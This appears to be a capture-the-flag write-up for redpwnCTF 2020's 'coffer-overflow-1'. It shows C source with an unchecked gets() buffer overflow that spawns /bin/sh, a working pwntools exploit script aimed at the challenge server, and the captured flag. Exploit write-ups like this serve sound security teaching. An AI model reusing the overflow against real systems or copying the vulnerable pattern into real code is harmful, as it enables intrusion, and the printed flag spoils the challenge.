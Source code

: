 # pwncoffer-overflow-1

## Challenge

"The coffers keep getting stronger! You'll need to use the source, Luke.

nc 2020.redpwnc.tf 31255"

You can download the problem files here [coffer-overflow-1](coffer-overflow-1)[coffer-overflow-1.c](coffer-overflow-1.c)

## Process

Coffer-overflow is title that implies a buffer overflow attack. I opened up the .c file and looked for anything interesting.

```
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
}
```

The lines below are important to the buffer overflow. The variable named code is defined as zero, and you can obtain shell capabilities if its value is set to 0xcafebabe. 

```
  long code = 0;
...
  gets(name);
...
  if(code == 0xcafebabe) {
    system("/bin/sh");
```

I wrote the following [python script](payloader.py) in order to overwrite the value of the variable code with 0xcafebabe.

```
from pwn import * 
connection = remote('2020.redpwnc.tf', 31255)
# offset is allocated + 8
offset = 16+8
# through objdump -d we know the machine is 64 bit
# through objdump -d we know we want to overwrite code as 0xcafebabe
code = p64(0xcafebabe)
#perform the bufferoverflow itself
connection.sendline(offset*code)
connection.interactive()
```

After running the script you obtain shell capabilities. The flag can then be found and displayed.

![Capture.JPG](Capture.JPG)

The flag is flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}